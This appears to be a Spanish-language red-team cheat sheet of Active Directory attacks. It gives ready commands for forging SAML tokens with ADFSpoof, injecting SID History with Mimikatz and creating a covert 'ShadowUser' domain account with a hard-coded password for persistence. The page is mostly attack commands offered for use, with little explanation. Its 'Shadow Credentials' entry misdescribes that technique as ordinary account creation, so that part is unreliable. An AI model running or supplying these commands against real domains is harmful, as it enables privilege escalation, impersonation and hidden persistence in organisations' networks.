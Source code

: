 ### SAML Token Manipulation
- **Descripción**: Manipulación de tokens SAML para autenticación federada.
- **Método**: Generación de tokens falsos.
- **Herramienta**: `ADFSpoof`, `Shimit`.
- **Comandos**:
  - **Windows**:
    ```bash
    # Utilizar herramientas específicas para manipulación de tokens SAML en Windows.
    ```
  - **Kali Linux**:
    ```bash
    ADFSpoof -s https://adfs.example.com/adfs/ls/ -u user@example.com -p password -r urn:app
    ```

### SID History Injection
- **Descripción**: Inyección de SID History para obtener permisos adicionales.
- **Método**: Manipulación de atributos SIDHistory.
- **Herramienta**: `Mimikatz`.
- **Comandos**:
  - **Windows**:
    ```bash
    mimikatz # misc::addsid /domain:example /sid:S-1-5-21-... /user:User /new:s-1-5-21-...
    ```
  - **Kali Linux**:
    ```bash
    # Realizar inyección de SID History en una máquina Windows utilizando Mimikatz.
    ```

### Shadow Credentials
- **Descripción**: Creación de credenciales alternativas sin ser detectado.
- **Método**: Uso de claves alternativas y persistencia.
- **Herramienta**: `PowerShell`.
- **Comandos**:
  - **Windows**:
    ```powershell
    New-ADUser -Name "ShadowUser" -UserPrincipalName "shadow@example.com" -AccountPassword (ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -Force) -Enabled $true
    ```
  - **Kali Linux**:
    ```bash
    # Crear credenciales alternativas debe realizarse en un entorno Windows utilizando PowerShell.
    ```
